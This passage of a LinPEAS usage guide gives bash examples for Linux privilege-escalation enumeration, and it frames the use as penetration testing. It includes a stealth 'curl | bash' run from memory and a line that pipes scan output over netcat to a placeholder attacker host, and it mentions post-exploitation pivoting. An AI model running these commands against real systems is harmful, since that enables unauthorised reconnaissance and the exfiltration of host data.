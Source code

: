 ***

### III. Professional Usage Examples

#### 1. Full Privilege Escalation Scan (Interactive)

```bash
chmod +x $TARGET_PATH
$TARGET_PATH | tee "$OUTPUT_FILE"

```

#### 2. Stealth Run from Memory (No Disk Write)

```bash
curl -sL <https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh> | bash | tee "$OUTPUT_FILE"

```

#### 3. Sectioned Scan (e.g., Only Filesystem)

```bash
$TARGET_PATH -o filesystem | tee "$OUTPUT_FILE"

```

#### 4. Container & Cloud-Specific Enumeration

```bash
$TARGET_PATH -o container | tee "$OUTPUT_DIR/container.txt"
$TARGET_PATH -o cloud | tee "$OUTPUT_DIR/cloud.txt"

```

#### 5. Remote Output (Collect Back to Attacker Listener)

```bash
$TARGET_PATH | nc attackerIP $LISTENER_PORT

```

#### 6. HTML/JSON Export for Reporting

_Parse the output into HTML/JSON using custom tools or terminal scripts for submission or dashboard integration._

***

### IV. Advanced Techniques & Scenarios

* **Filter by Section:** Enumerate targeted areas (users, services, processes, network) for rapid escalation or triage.\[1]\[7]
* **Stealth Ops & Memory Execution:** Avoid dropping files on disk for OPSEC-critical engagements; use interpreter pipelines.\[8]
* **Automate Output Processing:** Combine with grep/awk/sed or log parsers to prioritize red/yellow findings for immediate escalation attempts.
* **Post-Exploitation Pivoting:** Feed LinPEAS results into exploit scripts, privesc binaries, or audit dashboards for action and remediation.\[5]\[3]
* **Cloud/Container Assessment:** Leverage -o options for modern infrastructure enumeration (Kubernetes, Docker, AWS, etc.).\[7]
* **Continuous Monitoring:** Periodically rerun LinPEAS for drift and newly introduced misconfigurations on critical systems.\[9]
